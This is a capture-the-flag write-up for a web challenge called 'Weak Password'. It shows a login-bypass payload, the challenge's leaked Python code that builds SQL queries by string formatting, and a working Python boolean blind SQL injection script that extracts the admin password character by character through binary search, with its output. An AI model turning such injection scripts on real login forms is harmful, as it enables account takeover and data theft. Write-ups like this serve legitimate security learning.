


## Weak Password
### Category : Web


TLDR;

Boolean Blind SQLi

We are greeted with a Login page. 



Tried for a sqli, with a basic injection `' or 1=1-- ` as the username and random password

And we're in!



But Not Particularly useful login.


Challenge Description states
```
It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this site. He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

```

That means, we need to extract the data from the DB. So it has to be, `boolean blind sqli`.

From the source of the login page we get 
```
<!-- The following code might be helpful to look at: -->

<!--
def get_user(username, password):
    database = connect_database()
    cursor = database.cursor()
    try:
        cursor.execute('SELECT username, password FROM `userandpassword` WHERE username=\'%s\' AND password=\'%s\'' % (username, password))
    except:
        return render_template("failure.html")
    row = cursor.fetchone()
    database.commit()
    database.close()
    if row is None: return None
    return (row[0],row[1])
-->
```

So we know the DB Name and the column names. 


So, I wrote a simple script to automate the Extraction

```
#! /usr/bin/python3
import requests
import string

def inject(cmd):
    url = "https://weak_password.tjctf.org/login"
    data = {"username":"admin' AND {} -- ".format(cmd),"password":"leetcode"}
    #print(data)
    r = requests.post(url,data=data)
    #print(r.text)
    valid = "Congratulations"
    if(valid in r.text):
        return True
    else:
        return False


col_1 = "username"
col_2 = "password"
db = "userandpassword"

user = "admin"

#cmd = "Select unicode(substr(password,1,1)) from {} limit 1 offset 0 > 0 ".format(db)
flag=""
for i in range(1,10):
    l = 97 
    r = 123
    # l = 0
    # r = 100
    prev_mid = -1
    mid = int((l+r)/2)
    while(prev_mid!=mid):
        cmd = "(Select unicode(substr(password,{},{})) from userandpassword limit 1 offset 0) > {}".format(i,i,mid)
        #cmd = "(Select length(password) from userandpassword limit 1 offset 1) > {}".format(mid)
        val = inject(cmd)
        if(val):
            l = mid
        else:
            r=mid
        prev_mid=mid
        mid = int((l+r)/2)

    flag+=chr(mid+1)
    print(flag)
```

Output
```
b
bl
bli
blin
blind
blinds
blindsq
blindsql
blindsqli
```

PS : I did a Binary Search over the available character set to make the search process faster. 